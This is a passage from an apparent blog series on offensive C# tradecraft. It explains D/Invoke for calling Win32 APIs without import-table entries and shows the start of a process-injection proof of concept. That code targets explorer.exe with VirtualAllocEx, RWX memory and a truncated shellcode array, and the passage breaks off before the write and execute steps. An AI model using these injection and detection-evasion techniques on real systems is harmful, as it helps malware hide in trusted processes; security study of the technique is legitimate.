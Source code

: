 ## D/Invoke
[D/Invoke](https://github.com/TheWover/DInvoke) - Dynamic Invoke was introduced in 2020 as a replacement for P/Invoke. Basically, D/Invoke grants .NET assemblies the ability to dynamically invoke unmanaged APIs:
- Load a DLL into memory
- Get a pointer to a function/API in that DLL
- Call desired API using the pointer while passing in parameters
This is the standard usage of D/Invoke and will avoid directly importing the APIs into our .NET Assembly's IAT.

To do this, D/Invoke works with [Delegates](https://learn.microsoft.com/en-us/dotnet/csharp/programming-guide/delegates/). I'm probably not the best at explaining Delegates since this is my first time doing development in C#, but in my understanding, `Delegates` allows wrapping functions within a class, API calls can now be declared as a class and be used later on. Here is an example of D/Invoke usage to call the `VirtualAllocEx` Win32API:

Make a new class and create a Delegate for `VirtualAllocEx`:
```csharp
	public class DELEGATES {
		[UnmanagedFunctionPointer(CallingConvention.StdCall)]
		public delegate IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
  }
```

To call this Delegate:
```csharp
pntr = DInvokeFunctions.GetLibraryAddress("kernel32.dll", "VirtualAllocEx");
DELEGATES.VirtualAllocEx virAllocEx = Marshal.GetDelegateForFunctionPointer(pntr, typeof(DELEGATES.VirtualAllocEx)) as DELEGATES.VirtualAllocEx;
IntPtr allocret = virAllocEx(procInfo.hProcess, IntPtr.Zero, (uint)sheocode.Length, 0x1000 | 0x2000, 0x40); //MEM_COMMIT | MEM_RESERVE
```
1. Get the pointer to `VirtualAllocEx` in `kernel32.dll` via the helper function `GetLibraryAddress`.
2. Use `GetDelegateForFunctionPointer` to convert the function pointer into a delegate and cast it with the same delegate type.
3. Call the API/Instantiate the delegate.

*In this blog post series, I won't be importing the whole D/Invoke project, but only take the neccessary helper functions, structs and enums*

## Project Injection 101
Project Injection is a commonly used technique to inject our shellcode into legitimate target process's virtual memory space. A textbook way to perform project injection is:
1. Find a target process to inject our shellcode into and get a handle to it with `OpenProcess`
2. Allocate a new memory region in the remote target process using `VirtualAllocEx`
3. Write our shellcode into the allocated remote memory region using `WriteProcessMemory`
4. Execute our shellcode as a new thread with `CreateRemoteThread`

Here is a PoC to inject shellcode into `explorer.exe`
```csharp
// Get pid of explorer.exe
Process[] explorerProcess = Process.GetProcessesByName("explorer");

// Open a handle to explorer.exe
IntPtr hProcess = OpenProcess(0x001F0FFF, false, explorerProcess[0].Id);

// Allocate remote mem
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
// 0x3000 = MEM_COMMIT | MEM_RESERVE (0x1000 | 0x2000)
// 0x40: PAGE_EXECUTE_READWRITE (RWX)

// shellcode
byte[] buf = new byte[511] {0xfc,0x48,...,0xd5};
```
